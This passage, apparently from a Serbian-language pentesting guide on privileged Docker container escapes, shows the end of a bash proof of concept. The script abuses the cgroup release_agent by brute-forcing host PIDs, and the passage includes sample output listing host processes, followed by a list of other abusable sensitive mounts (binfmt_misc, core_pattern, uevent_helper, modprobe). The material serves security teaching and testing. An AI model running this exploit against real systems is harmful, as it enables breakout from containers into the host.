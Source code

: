 ```bash
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```

Izvršavanje PoC-a unutar privilegovanog kontejnera trebalo bi da pruži izlaz sličan:

```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```

#### Privilegovano bežanje zloupotrebom osetljivih montaža

Postoje nekoliko datoteka koje mogu biti montirane koje pružaju **informacije o osnovnom hostu**. Neke od njih čak mogu ukazivati na **nešto što će biti izvršeno od strane hosta kada se nešto desi** (što će omogućiti napadaču da pobegne iz kontejnera).\
Zloupotreba ovih datoteka može omogućiti da:

* release\_agent (već obrađeno ranije)
* [binfmt\_misc](sensitive-mounts.md#proc-sys-fs-binfmt\_misc)
* [core\_pattern](sensitive-mounts.md#proc-sys-kernel-core\_pattern)
* [uevent\_helper](sensitive-mounts.md#sys-kernel-uevent\_helper)
* [modprobe](sensitive-mounts.md#proc-sys-kernel-modprobe)
